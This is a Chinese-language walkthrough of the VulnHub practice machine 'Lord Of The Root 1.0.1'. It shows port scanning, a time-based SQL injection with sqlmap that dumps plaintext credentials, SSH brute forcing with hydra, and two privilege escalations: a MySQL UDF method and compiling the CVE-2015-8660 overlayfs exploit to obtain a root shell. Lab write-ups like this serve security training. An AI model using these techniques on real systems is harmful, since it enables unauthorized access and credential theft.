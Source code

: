 # Lord Of The Root: 1.0.1

https://www.vulnhub.com/entry/lord-of-the-root-101,129/

difficulty: Beginner

Finish Date：2024-4-11

## IP

192.168.10.156

此台机器关闭了 icmp 回应，nmap -sP 探测时会失败。可以使用 arp 扫描：sudo arp-scan -I eth1 -l

## Scan

Open Port -> 22,1337

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3c3de38e35f9da7420efaa494a1deddd (DSA)
|   2048 85946c87c9a8350f2cdbbbc13f2a50c1 (RSA)
|   256 f3cdaa1d05f21e8c618725b6f4344537 (ECDSA)
|_  256 34ec16dda7cf2a8645ec65ea05438921 (ED25519)
1337/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

访问 http://192.168.10.156:1337/ 就看到一张图片，使用目录扫描器看看有什么东西。http://192.168.10.156:1337/images/ 目录下有三张图片，图片的名字像是用户名，尝试用 hydra 爆破下 ssh 试试，结果没什么鸟用，看样子不是这个方向。

再次看扫描的结果，有一个 /index.php 文件，看看什么内容，在 html 源代码中发现了隐藏信息：THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh，base64 解码出来为：Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!，再次对 THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh base64 解码：/978345210/index.php，http://192.168.10.156:1337/978345210/index.php 是个登陆页面，估计能 SQL 注入 或 暴力破解。

先尝试 SQL 注入，使用 sqlmap 进行测试，显示结果存在 Time 延迟注入，抓取数据库名信息和表信息。发现数据库：Webapp，抓取其中的表信息：Users，直接获取表内数据，时间盲注需要等一段时间。

```
| 1 | frodo   | iwilltakethering |
| 2 | smeagol | MyPreciousR00t   |
| 3 | aragorn | AndMySword       |
| 4 | legolas | AndMyBow         |
| 5 | gimli   | AndMyAxe         |
```

尝试用得到的凭证登陆进行验证，这几个用户都能登陆表单，猜测这几个用户有没有可能有 ssh 用户，进行爆破，果然得到了其中的一个登陆用户：

```
[22][ssh] host: 192.168.10.156   login: smeagol   password: MyPreciousR00t
```

## flag

### 方式 1：

进入到系统，开始搜索提升到 root 的方法，发现 mysql 数据库是以 root 用户权限执行的，如果能找到登陆的用户名和密码，就有可能 udf 提权。查询相关参数，看是否满足前提条件：

```
cat /var/www/978345210/login.php

$db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');

version = 5.5.44-0ubuntu0.14.04.1

plugin_dir = /usr/lib/mysql/plugin/  <--默认路径

secure_file_priv    <--- 没有设置
```

UDF 函数注册后，得到了 root shell：

```
bash-4.3# cat Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```

### 方式 2：

Linux Exploit Suggester 2 检测出系统内核存在 2 个漏洞：

```
Local Kernel: 3.19.0
Searching 72 exploits...

Possible Exploits
[1] exploit_x
    CVE-2018-14665
    Source: http://www.exploit-db.com/exploits/45697
[2] overlayfs
    CVE-2015-8660
    Source: http://www.exploit-db.com/exploits/39230

```

尝试 CVE-2015-8660 进行提权，下载 39230.c 文件到目标机器，进行编译：

```
gcc 39230.c -o ofs
./ofs

bash-4.3# id
uid=0(root) gid=1000(smeagol) groups=0(root),1000(smeagol)
```

### 方式 3：

在/SECRET/door2/file、/SECRET/door1/file、/SECRET/door3/file 存在 3 个 SUID 文件，猜测是存在缓冲区溢出漏洞，暂时没有进行测试提权。
